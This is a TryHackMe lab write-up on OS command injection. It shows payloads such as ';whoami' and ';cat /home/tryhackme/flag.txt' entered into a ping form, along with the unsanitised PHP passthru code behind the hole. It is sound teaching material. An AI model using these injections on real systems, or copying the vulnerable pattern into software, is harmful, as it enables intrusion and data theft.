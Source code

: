 # oscommandinjection

### https://tryhackme.com/room/oscommandinjection
### Hein Andre Grønnestad
### 2021-10-10

---

## Task 5

We have access to the following web interface:

![](01-screenshot.png)

This web tool can be used to ping an IP address. Let's try it:

![](02-screenshot.png "")

After waiting for the `ping`-command to finish, we get the following results back:

```
Here is your command: 127.0.0.1

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3061ms rtt min/avg/max/mdev = 0.015/0.025/0.030/0.006 ms
```

### Task 5 - What user is this application running as?

We need to try and execute the `whoami`-command through the web interface to see which user the web application is running as.

Let's start by guessing that the server side code looks something like this:

```php
echo system("ping $user_input");
```

So when we enter `127.0.0.1` it will look like this:

```php
echo system("ping 127.0.0.1");
```

We can only change the part that comes after `ping `.

The simplest thing would be to try to add an extra command to the input.

Let's try the follwing payload where we add another command by adding a `;` followed by a second command:

```
127.0.0.1;whoami
```

This is what we receive back. Notice the `{whoami_output}` at the end of the output:

```
Here is your command: 127.0.0.1;whoami

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.028/0.038/0.007 ms {whoami_output}
```

If we ommit the ip address we don't even have to wait for the `ping`-command to finish.

Payload:
```
;whoami
```

Output:
```
Here is your command: ;whoami

Output:

{whoami_output}
```

### Task 5 - What are the contents of the flag located in /home/tryhackme/flag.txt?

Payload:
```
;cat /home/tryhackme/flag.txt
```

Output:
```
Here is your command: ;cat /home/tryhackme/flag.txt

Output:

THM{**************************}
```

## Extra Credit

### Exfiltrate Web App Code

Payload:
```
;ls
```

Output:
```
Here is your command: ;ls

Output:

css img index.php js test.php
```

Payload:
```
;cat index.php
```

Output Screenshot:

![](03-screenshot.png "")

We can see the HTML-page renderen in the browser, but with the PHP-variables visible.

"View Page Source" gives us the following:

Output:
```php
// ... HTML template removed
<?php
if (isset($_GET["address"])) {
    $command = $_GET["address"];
    echo "<p><b>Here is your command: </b>$command</p>";

    echo "<p><b>Output: </b>$result</p>";

    $result = passthru("/bin/ping -c 4 ".$_GET["address"]);
}
?>
```

We can clearly see the vulnerable code:
```php
$result = passthru("/bin/ping -c 4 ".$_GET["address"]);
```


### Reverse Shell
We could probably get a reverse shell from the server as well.
